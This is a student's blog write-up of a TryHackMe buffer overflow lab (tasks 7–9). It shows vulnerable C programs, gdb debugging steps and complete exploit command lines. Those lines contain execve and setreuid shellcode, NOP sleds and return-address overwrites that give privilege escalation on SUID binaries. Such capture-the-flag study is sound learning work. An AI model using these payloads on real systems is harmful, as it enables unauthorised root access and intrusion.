







My first (proper?) buffer overflow
Everyone that works with computers has heard of the term buffer overflow. It is not uncommon to cause such an unwanted behavior when writing code yourself, over populating memory or performing prohibited read/write operations. However, even though I understood what was happening in a broader sense, I did not have any experience with buffer overflows. Thankfully, my project on the Computer Network Security course, reading on this paper, gave me “a reason” to try and get into more depth. 1
I saw a couple of videos, wrote more than my fair share of articles, and dug into one or more websites, but in the end, when I tried TryHackMe’s Buffer Overflow room, I was stuck.
Criticism
I feel that this room could (and should) be improved. While it does serve as an introduction to Buffer Overflow, it surely is not a tutorial/walkthrough targeted towards beginners, implied by its “easy” difficulty.
It was rather disheartening, to see myself get so stuck.
Task 7
In this task we are asked to get special, instead of normal to
execute:
#include <stdlib.h> #include <unistd.h> #include <stdio.h> void special() { printf("this is the special function\n"); printf("you did this, friend!\n"); } void normal() { printf("this is the normal function\n"); } void other() { printf("why is this here?"); } int main(int argc, char **argv) { volatile int (*new_ptr) () = normal; char buffer[14]; gets(buffer); new_ptr(); }
Launching GDB:
gdb ./func-pointer
I had not played around with gdb before, so I did not have any ready-to-go set of notes available, and had to build my own from scratch.
To view the assembly commands and memory addresses for each function I used the following:
disassemble main disassemble special disassemble normal

Figure 1: Interesting assembly commands and locations
At this point, I knew that the two variables, pointer and buffer were
adjacent in memory, and since gets() is vulnerable to buffer
overflows, that means I could potentially use it to write to the new_ptr
I also knew that:
0x400582is the address of normal0x400567is the address of special
Having seen a related LiveOverflow video (an old one that got me
thinking of how slowly experience builds up), I was aware of the
define hook-stop functionality to print specific parts of memory and
or registers at each break point, so all I had to do was set proper
breakpoints and fool around with the input.
In the end, I only needed one breakpoint, which I placed at position 2
in the image above: I just wanted to see the memory right before the
execution of the function new_ptr pointed to.
Then I started experimenting:
run- give input
- see memory
- repeat
It quickly become evident that I was writing in the highlighted area, and wanted to change the contents of the “circled” one’s:

Figure 2: Highlighting memory dump
Unfortunately, I could not get the payload I had created to work inside of gdb, not knowing how to get it to parse my input as hex: I could see that I modified the target area (first payload), but the second one could not work, to set it to its proper value (0x400567)
AAAAAAAAAAAAAAAAAA AAAAAAAAAAAAAA\x67\x05\x40\x00

Figure 3: Setting new_ptr to all As
To bypass this I relied on echo:

Figure 4: Solution
Task 8
This was the first buffer overflow I attempted that resulted in the execution of a different program for Privilege Escalation. Mistakes are undoubtedly plenty, and if you find any, please feel free to correct me in the comments.
#include <stdio.h> #include <stdlib.h> void copy_arg(char *string) { char buffer[140]; strcpy(buffer, string); printf("%s\n", buffer); return 0; } int main(int argc, char **argv) { printf("Here's a program that echo's out your input\n"); copy_arg(argv[1]); }
Keeping it short, when a function ends, the return address - the address from which the computer should continue - exists in memory. One (not-so-innocent) user, might try to modify this, so that another program executes, thus modifying the flow of the program.
Even though I suppose that this is not actual reverse engineering -
but focusing only on the buffer overflow part of the challenge: We
know the source code: The snippet above gives us 140 bytes to store
information, before it prints it to the command line. We could, and
this is the target of this task, populate some of these 140 bytes with
a shellcode (code to spawn a shell for us), and modify the return
address of the copy_arg() function, so that when it is finished, it
does not return to main() but executes our payload, residing inside of
the buffer variable.
In addition to those 140 bytes to populate, we should also add enough contents to overwrite the return value of the function.
Silly as it may seem, chatgpt does more than just a fine job helping you revise assembly. It was fun analyzing where I should look at :P

Figure 5: Filling buffer with A’s and checking the return address
Through experimentation we can understand the following:
- The highlighted one’s (and the 0x41s in between) are our input
- The address in the block is the return address - the command
following
copy_argin main
So while our input did its job of populating the buffer variable, it needs to be improved to work for us:
- Glancing at the picture we can see that the return address is found 152 bytes after the first ’A’ (0x41), and has a length of 4 bytes, meaning that we are interested in the bytes 152-156.
After modifying our input string just a little bit, we hope to get the return address “populated” with As.

Figure 6: Overwritten return address
The ’\x90’ string is the NOP (no operation) flag, and is extremely useful when used as padding, because when assembly gets evaluated and a NOP flag is encountered it is simply skipped (does not cause any errors)
At this point, focusing on the buffer overflow and not on the shellcode, I got the hex shellcode from a writeup to continue. (The one in the room did not seem to work). This is 40 bytes.
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
Modifying our input string once again to include the shellcode and the buffer’s address as a return address (remember, NOP), we expect to get a shell:
- 0x7fffffffe370 becomes:
- ’\x70\xe3\xff\xff\xff\x7f’
- Appended to our “payload”
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
- That did not work at first for me because of a peculiar floating error. After inspecting my “payload” again and again I replaced the second padding with As instead of NOPs. It then worked.
Getting a shell, though, is not enough, since we do not have
permission to view the file we want (we remain as the same user,
despite the suid bit). We want to change our shellcode to have a
setuid() statement in it:
- This is cheating, but once again, I reused someone else’s shellcode, even though I knew about real and effective uids. It was out of scope for “my investigation” to get the shellcode.
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*86 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
Task 9
This seems exactly the same as before. Let’s see if we can tackle it quickly:
#include <stdio.h> #include <stdlib.h> void concat_arg(char *string) { char buffer[154] = "doggo"; strcat(buffer, string); printf("new word is %s\n", buffer); return 0; } int main(int argc, char **argv) { concat_arg(argv[1]); }
- doggo has 5 characters length, meaning that there are 149 more characters left to fill buffer. After that, there will be a padding and the return address.
- Following the same methodology as before, I fired up
gdb, setstop-hookup and …

Figure 7: Started from the bottom now we here
I then created the setuid payload once again, and proceeded to modify the payload to fit in our example.
root@ip-10-10-80-64:~# pwn shellcraft -f d amd64.linux.setreuid 1003 \x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
Namely the changes (compared to task 8):
- Different size - but we can still use the same payload:
- Bytes 164-170 are of interest now
- Our payload remains 54 bytes in length, so with a padding of 100 and 9 we should be fine.
- Different user id:
- Already fixed in our setuid payload (went ahead and checked )
- Different address:
- As shown in the image above:
- 0x7fffffffe3b0
- 0xb0e3ffffff7f
- \xb0\xe3\xff\xff\xff\x7f
- As shown in the image above:
./buffer-overflow-2 $(python -c "print ('\x90'*99 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*10 + '\xb0\xe3\xff\xff\xff\x7f')")
That should work but I’m still getting segmentation fault. I suspect that my shell code address is somehow wrong. (Strangely, this somehow worked after I modified the address to something closer to my shellcode address in gdb - even though I had used an address pointing to the preceding NOPs)
In conclusion
This might be one of the best rooms I have ever checked out and I am glad I did.
Links:
Although I usually keep myself from searching for walkthroughs and solutions, this time, partly due to the insufficiency of the instructions and partly due to my inability to see what went wrong in my good-looking attempts to solve each task , I have checked some articles covering that same room
- https://l1ge.github.io/tryhackme_bof1/
- I really liked the way of writing.
- https://bobloblaw321.wixsite.com/website/post/tryhackme-buffer-overflows
- Nice explanation of step 7. It was the author’s comment on the proper way of entering input that made me realize my payload was not wrong, but the way I delivered it was.
- https://stackoverflow.com/questions/32345320/get-return-address-gdb
- The
info framecommand helped me better understand
- The
Footnotes:
I am planning on publishing the resulting work here as soon as I finish it. It was invigorating to see how my previous work, structure and collection/organization allowed me to effectively tackle the task of writing an academic paper. Maybe some notes on that are due as well.